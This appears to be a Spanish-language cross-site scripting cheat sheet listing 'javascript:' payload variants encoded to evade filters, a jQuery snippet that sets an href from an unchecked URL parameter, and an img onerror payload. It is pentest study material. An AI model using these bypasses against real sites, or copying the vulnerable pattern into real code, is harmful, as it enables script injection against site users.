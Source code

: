 ### XSS en atributos HTML

```bash
javascript:alert(1)
javascript:print()

#using new line characters
java%0ascript:alert(1)   - LF (\n)
java%09script:alert(1)   - Horizontal tab (\t)
java%0dscript:alert(1)   - CR (\r)

#escape character
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)

# encode the "javascript:" in Hex/Octal
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
\152\141\166\141\163\143\162\151\160\164\072alert(1)

# Using the newline and a comment //
javascript://%0Aalert(1)
javascript://anything%0D%0A%0D%0Awindow.alert(1)
```

la funcion `attr()` de JQuery se usa para configurar atributos de objetos HTML:

```javascript
$(function() {
	$('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl'));
});
```

la funcion `setAttribute` de JS nativo hace lo mismo:

```javascript
// <button>Hello World</button>

const button = document.querySelector("button");
button.setAttribute("name", "helloButton");
```

### XSS JQuery selector

Otro sink potencial a tener en cuenta es la función de selección `$()` de jQuery, que se puede usar para inyectar objetos maliciosos en el DOM.

```html
<img src/onerror="alert(1)">
```

### XSS bypass caracteres (<>) encodeados

Algunas paginas convierten los caracteres mayor y menos a entidades HTML:

- `>` ==> `&gt;`
- `<` ==> `&lt;`
